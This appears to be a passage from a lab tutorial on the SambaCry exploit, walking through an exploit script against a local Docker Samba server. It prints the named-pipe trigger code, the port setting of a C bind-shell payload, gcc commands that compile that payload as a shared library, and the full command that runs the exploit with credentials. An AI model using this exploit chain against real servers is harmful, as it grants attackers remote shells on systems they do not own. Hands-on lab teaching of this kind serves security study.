 <br>
This block is the parameters block. We can see what is needed to run the exploit. We have a remote shell port option too. This is in case we want the code to automatically connect to the bind shell which runs on the target.
Under that we can see a port already set up to 445. We can change it but SMB will probably be on port 445 by default so let's leave it for now. Now let's explore to the function named exploit. 
First we open the smb connection to the target. Then we try to upload the file given in the parameter. Then we execute the exploit.
<br>
<h2>Total Exploitation</h2>
This is the actual exploitation part. So far only the exploit code has been uploaded. If everything goes right, this few lines will execute the uploaded code. The main idea behind this is that a Samba server can load libraries from shared locations. 
This information will be handy because we know now that only special files can be uploaded and executed. Now, for the execution to work, we need the full path of the uploaded payload. This is the point where in case the payload does not seem to execute, you need to make adjustments and tweaks to make it work. The actual malformed request should not be changed, but just changing the parameters. First let's not update the code here, but give yourself a better view on what's actually happening by writing the actual malformed request to the console.
Modified code:
<br>
```
    triggerModule = r'ncacn_np:%s[\pipe\%s]' % (target, remotepath)
	print("The exploit code section looks like this:")
	print(triggerModule)
    rpcTransport = transport.DCERPCTransportFactory(triggerModule)
    dce = rpcTransport.get_dce_rpc()
    triggerThread = Thread(target=dceTrigger, args=(dce,))
    triggerThread.daemon = True
    triggerThread.start()
```
<br>
After this we only have the handler. In case of our payload being a bind shell, this handler will connect to it. We can delete this if we want to connect with a different method all together. 
There is also a test if the exploit was successful or not. "Uname -a" will run when the handler establishes connection which displays the OS version and Kernel version installed on the exploited machine.
<br>
<h2>Payload</h2>
Let's check the payload given for this exploit. This is a bind shell written in C. Looking at the code of bindshell-samba.c we can see a nicely commented code. Without going into much details, the only thing we need to take a look is where the port number is set.
<br>
```
    hostAddr.sin_family = AF_INET;
    hostAddr.sin_port = htons(6699);
    hostAddr.sin_addr.s_addr = htonl(INADDR_ANY);
```
<br>
We can see that the listening port is set to 6699. We can change it anytime. 
Let's compile the payload using GCC and the following flags.
<br>
```
gcc -c -fpic bindshell-samba.c
gcc -shared -o libbindshell-samba.so bindshell-samba.o
```
<br>
<h2>All set </h2>
With that tiny little modification, the exploit is ready to run. By using the given command we can exploit the docker environment.
<br>
```
./exploit.py -t localhost -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699
```